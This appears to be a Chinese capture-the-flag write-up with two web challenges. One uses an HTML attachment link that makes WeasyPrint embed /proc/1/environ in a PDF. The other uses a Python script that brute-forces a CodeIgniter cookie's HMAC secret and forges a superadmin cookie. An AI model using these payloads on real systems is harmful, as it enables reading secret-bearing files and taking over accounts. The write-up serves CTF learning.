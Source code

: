 # web
### CSDN_To_PDF V1.2
#ssrf 
WeasyPrint 61.2 html渲染为pdf
写一个html
```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
</head>
<body>
<link rel="attachment" href="file:///proc/1/environ">
</body>
</html>
```

binwalk -e 提取pdf文件即可看到

### baby-Codeigniter
一个登录页面   /index.php/login

cookie是一个类似于php序列化后的东西

---
弱口令admin/123456登录后发现上传文件需要superadmin,发现cookie里有这个字段,但是最后有一串hash做校验,
需要爆破,注意不需要url解码,爆破得到123456
```python
import hmac
import urllib.parse
import hashlib
import sys
import time

def EncryCookie(cookie,secret):
    cookie = urllib.parse.unquote_plus(cookie)
    cookielen=len(cookie)-40
    cookie = cookie[:cookielen].replace('"superadmin";b:0;}','"superadmin";b:1;}')
    hmacstr=hmac.new(secret.encode("utf-8"),cookie.encode("utf-8"),hashlib.sha1).hexdigest()
    return urllib.parse.quote_plus(cookie+hmacstr)


def CrackSecret(cookie,secret):
    cookie = urllib.parse.unquote_plus(cookie)
    cookielen=len(cookie)-40
    hmac_check = cookie[cookielen:]
    cookie = cookie[:cookielen]
    hmacstr=hmac.new(secret.encode("utf-8"),cookie.encode("utf-8"),hashlib.sha1).hexdigest()
    return hmac_check == hmacstr

if __name__ == "__main__":
    cookie = sys.argv[1]
    secrets = []
    with open("secret.txt") as f:
        secrets = f.readlines()
    print("开始爆破:")
    starttime=time.time()
    for secret in secrets:
        secret=secret.strip("\n")
        result  = CrackSecret(cookie,secret)
        if result == True:
            print("[+]Secret:"+secret)
            encrycookie=EncryCookie(cookie,secret)
            print(encrycookie)
            endtime=time.time()
            print("耗时:"+str(endtime-starttime))
            exit(0)
        else:
            print("[-]Secret:"+secret)
```


# reverse

# pwn

# crypto

# Misc


---
# *相关wp*




2024-04-04   20:27